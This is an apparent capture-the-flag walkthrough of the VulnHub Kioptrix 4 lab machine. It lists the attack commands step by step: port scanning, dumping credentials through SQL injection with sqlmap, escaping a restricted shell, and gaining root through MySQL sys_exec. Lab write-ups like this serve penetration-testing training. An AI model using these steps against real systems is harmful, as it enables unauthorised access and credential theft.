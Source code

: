 ### target:			kioptrix4 by Kioptrix Team

### hosted by:			vulnhub.com

### virtualization software:	virtualbox

### testing platform:		kali linux 2017

###walkthrough by:		worzel_gummidge



the attacker uses **nmap** to discover *tcp22*, *tcp80*, *tcp139* and *tcp445* are open.

```bash
nmap 192.168.56.103 -A -n -T5 -p1-65535
```



after the attacker uses **burp** to capture the login request on the target website, the request file is fed into **sqlmap**. the *password* parameter is injectable and the attacker is able to access login credentials.

![screenshot: manually injecting a login page](assets/1.png "manual sql injection")

```bash
sqlmap -r sql1.txt --risk 3 --level 5 --dump-all
```



the credentials are used to log in to the target machine via *ssh*. the attacker has a limited shell. the attacker is able to break out of the limited shell issuing the followung command:

```bash
echo os.system("/bin/bash")
```

![screenshot: attacker escapes limited shell](assets/2.png "we have a full shell")



the attacker finds mysql credentials and uses them to add his/ her current user *john* to the admin group.

```bash
mysql -h loacalhost -u root -p
```

```mysql
select sys_exec('usermod -a -G admin john')
```

![screenshot: congrats.txt](assets/3.png "we have root!")
